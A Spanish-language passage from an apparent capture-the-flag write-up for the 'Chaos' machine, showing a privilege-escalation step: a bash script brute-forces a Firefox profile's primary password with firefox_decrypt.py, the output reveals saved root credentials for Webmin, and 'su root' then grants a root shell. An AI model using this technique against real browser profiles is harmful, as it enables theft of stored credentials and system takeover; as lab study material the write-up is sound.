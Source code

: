 Me he creado este `script` para hacer `fuerza bruta`

```
# cat bruteforce.sh 
#!/bin/bash

#./brute.sh top-passwords.txt 2>/dev/null | grep -A2 -B2 "chrome:"
passfile=$1
while read pass; do
  echo "Trying $pass"
  echo "$pass" | python firefox_decrypt.py /home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default
done < $passfile
```

Ejecutamos el `script de fuerza bruta` y la contraseña usada para proteger el archivo era `jiujitsu`. Ahora tenemos una `autenticación` contra el servicio `Webmin` con las `credenciales` del usuario `root`

```
# ./bruteforce.sh passwords 
Trying jiujitsu
2024-10-13 11:44:07,347 - WARNING - profile.ini not found in /home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default
2024-10-13 11:44:07,347 - WARNING - Continuing and assuming '/home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default' is a profile location
Reading Primary password from standard input:

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
Trying inner[OnCag8
2024-10-13 11:44:07,421 - WARNING - profile.ini not found in /home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default
2024-10-13 11:44:07,421 - WARNING - Continuing and assuming '/home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default' is a profile location
Reading Primary password from standard input:
2024-10-13 11:44:07,423 - ERROR - Primary password is not correct
Trying sahay
2024-10-13 11:44:07,494 - WARNING - profile.ini not found in /home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default
2024-10-13 11:44:07,494 - WARNING - Continuing and assuming '/home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default' is a profile location
Reading Primary password from standard input:
2024-10-13 11:44:07,496 - ERROR - Primary password is not correct
```

Nos convertimos en `usuario root` usando `Thiv8wrej~` como `contraseña`

```
ayush@chaos:~$ su root
Password: 
root@chaos:/home/ayush# whoami
root
```
